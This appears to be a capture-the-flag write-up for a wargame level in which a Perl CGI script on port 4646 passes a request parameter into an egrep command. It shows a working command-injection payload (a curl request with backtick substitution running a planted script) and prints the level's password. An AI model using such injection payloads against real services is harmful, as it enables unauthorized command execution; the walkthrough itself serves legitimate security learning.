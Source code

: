 # LEVEL 12

## 💡 Explanation

In this level we have to:
1. As always, check the permissions of level12.pl
2. Then, check the code and understand how to call it and get the response => now the code is listening on the port 4646, so we have to sent it the info using curl to be able to pass the parameters!
3. To see how to pass the params and how they are transformed, I've imported the code and print everything (see level12_cristina.pl)
4. It is clear that we have to use the `egrep "^$xx" /tmp/xd` to exploit the code, since the variable `$xx` is coming directly from the parameter
5. Now the big WTF moment, egrep executes the regex... it is very stupid... once this is discovered everything else is pretty easy....
![The stupidest thing ever \o/](./Resources/wtf.png)


## 👾 Commands

```
echo "getflag > /tmp/lol" > /tmp/LOL.SH
chmod +x /tmp/LOL.SH
curl '127.0.0.1:4646?x="`/*/LOL.SH`"'
cat /tmp/lol
```

## 🔍 Resources

- [PERL and CGI Tutorial](https://www.tutorialspoint.com/perl/perl_cgi.htm)
- [PERL regular expressions](https://voyager.deanza.edu/~perry/cis331.html)
- [Linux egrep command](https://www.computerhope.com/unix/uegrep.htm)
- [Curl pass parameters](https://stackoverflow.com/questions/13371284/curl-command-line-url-parameters)

## 🔥 Password
`g1qKMiRpXf53AWhDaU7FEkczr`
